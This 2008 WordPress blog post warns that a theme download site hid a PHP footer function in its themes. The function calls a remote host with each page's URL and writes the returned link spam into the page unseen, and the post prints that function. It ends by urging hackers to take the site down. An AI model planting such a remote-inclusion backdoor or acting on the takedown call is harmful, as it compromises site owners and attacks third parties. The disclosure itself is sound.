 ```yaml
---
categories:
- Misc
- php
comments: true
date: 2008-01-24T04:43:02Z
slug: dont-ever-user-wwwtemplatesbrowsercom-for-wordpress-themes
title: Don't ever user www.templatesbrowser.com for wordpress themes
url: /2008/01/24/dont-ever-user-wwwtemplatesbrowsercom-for-wordpress-themes/
wordpress_id: 182
---
```


Today I noticed a JavaScript error on my site, on investigation I saw the following JavaScript code in the page source:

``` javascript
var CCounter=2151068; var CCsite=www.chapter31.com; CCinvisible=0;
<nosc/ript><a hreflang="de" lang="de" href="http://www.portalux.com/">online casino</a></nosc/ript>
var CCounter=2151068; var CCsite=www.chapter31.com; CCinvisible=0;
```

My investigations found that where I downloaded the template from was a nice (NOT) little site called [http://www.templatesbrowser.com/](http://www.templatesbrowser.com/wordpress-themes/). Now what they do is add a "functions.php" file in the original code base, then call a method from the footer "credits();" which is in the functions.php file:

``` javascript
<?php

function credits()
{
 $url = "http://get.templatesbrowser.com/wp.php?" .
       "url=" . urlencode($_SERVER['REQUEST_URI']) . "&" . "host=" . urlencode($_SERVER['HTTP_HOST']);
 $check = @fsockopen("get.templatesbrowser.com", 80, $errno, $errstr, 3);
 if($check)
 {
  @readfile($url);
  fclose($check);
 }
}

?>
```

More information was found from [www.onnoot.com/](http://www.onnoot.com/e/532/Templatesbrowser.com_puts_link_spam_in_WordPress):


> This produces a link at the bottom of every WordPress page, that is invisible for human readers.
>
> Templatesbrowser.com apparently does this to increase the pagerank of certain websites. Weâ€™re not sure if Google falls for this little link spam trick. But if Google does find out that your page contains link spam, you risk being punished. That could mean that your website is removed from Google's search result pages.

So for those who don't know I hope this was useful, if any people out there are crackers/hackers do me a favour and pull their site down :)
